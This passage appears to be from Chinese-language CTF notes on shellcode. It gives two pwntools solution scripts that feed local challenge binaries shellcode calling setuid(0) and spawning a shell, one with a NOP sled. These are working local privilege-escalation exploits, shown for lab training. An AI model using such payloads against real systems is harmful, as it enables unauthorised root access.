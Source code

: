   - **对于64位程序：**

    构造`setuid(0)`的机器码：`asm(shellcraft.amd64.linux.setuid(0))`



### `shellcode`的艺术

#### ch1：

> 二进制文件：[shellcode_ch1](./2_解析ROP（返回导向编程）.assets/shellcode_ch1)
> C源码：[shellcode_ch1](./2_解析ROP（返回导向编程）.assets/shellcode_ch1.c)

wp：

```python
from pwn import *
import os
os.chdir("/challenge")

context.arch = 'amd64'

file_name = './1-1-1'

io = process(file_name)

str = io.recvuntil("from stdin.\n")
print(str.decode('utf-8'))

payload = asm(shellcraft.amd64.linux.setuid(0) + shellcraft.amd64.sh())
# payload = asm(shellcraft.i386.linux.setuid(0) + shellcraft.amd64.sh())

io.sendline(payload)

io.interactive()
```

#### ch2：

> 二进制文件：[shellcode_ch2](./2_解析ROP（返回导向编程）.assets/shellcode_ch2)
> C源码：[shellcode_ch2](./2_解析ROP（返回导向编程）.assets/shellcode_ch2.c)

wp：

```python
from pwn import *
import os
os.chdir("/challenge")

context.arch = 'amd64'

file_name = './1-1-2'

io = process(file_name)

str = io.recvuntil("from stdin.\n")
print(str.decode('utf-8'))

payload = b'\x90'*0x800 + asm(shellcraft.amd64.linux.setuid(0) + shellcraft.amd64.sh())
# payload = asm(shellcraft.i386.linux.setuid(0) + shellcraft.amd64.sh())

io.sendline(payload)

io.interactive()
```
